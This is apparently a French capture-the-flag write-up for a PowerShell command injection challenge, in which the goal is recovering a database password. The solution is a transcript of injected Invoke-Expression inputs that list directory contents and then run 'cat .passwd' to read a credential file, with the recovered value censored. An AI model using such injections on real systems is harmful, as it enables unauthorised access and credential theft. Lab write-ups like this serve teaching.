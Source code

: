 # Powershell - Command Injection

## 10 Points

### Il y a UI, UX et IEX

### Énoncé

Retrouvez le mot de passe de la base de données.

## Résolution

> Invoke-Expression(1+1)
Connect to the database With the secure Password: 76492d1116743f0423413b16050a5345MgB8ADMAeABGAEYASABrAEYAbABkAHUAdABOAGEARABEAEUAUwB1AGIAdwBiAHcAPQA9AHwAYgBiADcAYgBlADEAMAAzADQAMgA2ADUANAAzAGYAYgBlAGEAMQBhADUANABm
AGMANQAxADgANAAwAGQAYgA1AGIAOQBjADAANAAyAGUAOABhADMAOQBhADgANQA5ADAANgBjAGEANAA1ADQAYgA1ADcAMQA2AGUANwAwAGQAYQAwADEANgAyADAAMwBjAGQAMgA0ADEAOABiADQAMwAyAGIAMQBkAGQAMwA1ADcANwBjADcAOAA5AGYAYwBlADEA. Backup the table
Invoke-Expression 2
> 

> Invoke-Expression(echo ls)
Connect to the database With the secure Password: 76492d1116743f0423413b16050a5345MgB8ADMAeABGAEYASABrAEYAbABkAHUAdABOAGEARABEAEUAUwB1AGIAdwBiAHcAPQA9AHwAYgBiADcAYgBlADEAMAAzADQAMgA2ADUANAAzAGYAYgBlAGEAMQBhADUANABm
AGMANQAxADgANAAwAGQAYgA1AGIAOQBjADAANAAyAGUAOABhADMAOQBhADgANQA5ADAANgBjAGEANAA1ADQAYgA1ADcAMQA2AGUANwAwAGQAYQAwADEANgAyADAAMwBjAGQAMgA0ADEAOABiADQAMwAyAGIAMQBkAGQAMwA1ADcANwBjADcAOAA5AGYAYwBlADEA. Backup the table
Invoke-Expression ls
> 

> Invoke-Expression(dir)
Connect to the database With the secure Password: 76492d1116743f0423413b16050a5345MgB8ADMAeABGAEYASABrAEYAbABkAHUAdABOAGEARABEAEUAUwB1AGIAdwBiAHcAPQA9AHwAYgBiADcAYgBlADEAMAAzADQAMgA2ADUANAAzAGYAYgBlAGEAMQBhADUANABm
AGMANQAxADgANAAwAGQAYgA1AGIAOQBjADAANAAyAGUAOABhADMAOQBhADgANQA5ADAANgBjAGEANAA1ADQAYgA1ADcAMQA2AGUANwAwAGQAYQAwADEANgAyADAAMwBjAGQAMgA0ADEAOABiADQAMwAyAGIAMQBkAGQAMwA1ADcANwBjADcAOAA5AGYAYwBlADEA. Backup the table
Invoke-Expression .git .key .passwd ._perms ch18.ps1
> 

> Invoke-Expression(dir)
Connect to the database With the secure Password: 76492d1116743f0423413b16050a5345MgB8ADMAeABGAEYASABrAEYAbABkAHUAdABOAGEARABEAEUAUwB1AGIAdwBiAHcAPQA9AHwAYgBiADcAYgBlADEAMAAzADQAMgA2ADUANAAzAGYAYgBlAGEAMQBhADUANABm
AGMANQAxADgANAAwAGQAYgA1AGIAOQBjADAANAAyAGUAOABhADMAOQBhADgANQA5ADAANgBjAGEANAA1ADQAYgA1ADcAMQA2AGUANwAwAGQAYQAwADEANgAyADAAMwBjAGQAMgA0ADEAOABiADQAMwAyAGIAMQBkAGQAMwA1ADcANwBjADcAOAA5AGYAYwBlADEA. Backup the table
Invoke-Expression .git .key .passwd ._perms ch18.ps1
> 

> Invoke-Expression(cat .passwd)
Connect to the database With the secure Password: 76492d1116743f0423413b16050a5345MgB8ADMAeABGAEYASABrAEYAbABkAHUAdABOAGEARABEAEUAUwB1AGIAdwBiAHcAPQA9AHwAYgBiADcAYgBlADEAMAAzADQAMgA2ADUANAAzAGYAYgBlAGEAMQBhADUANABm
AGMANQAxADgANAAwAGQAYgA1AGIAOQBjADAANAAyAGUAOABhADMAOQBhADgANQA5ADAANgBjAGEANAA1ADQAYgA1ADcAMQA2AGUANwAwAGQAYQAwADEANgAyADAAMwBjAGQAMgA0ADEAOABiADQAMwAyAGIAMQBkAGQAMwA1ADcANwBjADcAOAA5AGYAYwBlADEA. Backup the table
Invoke-Expression [censorship]
>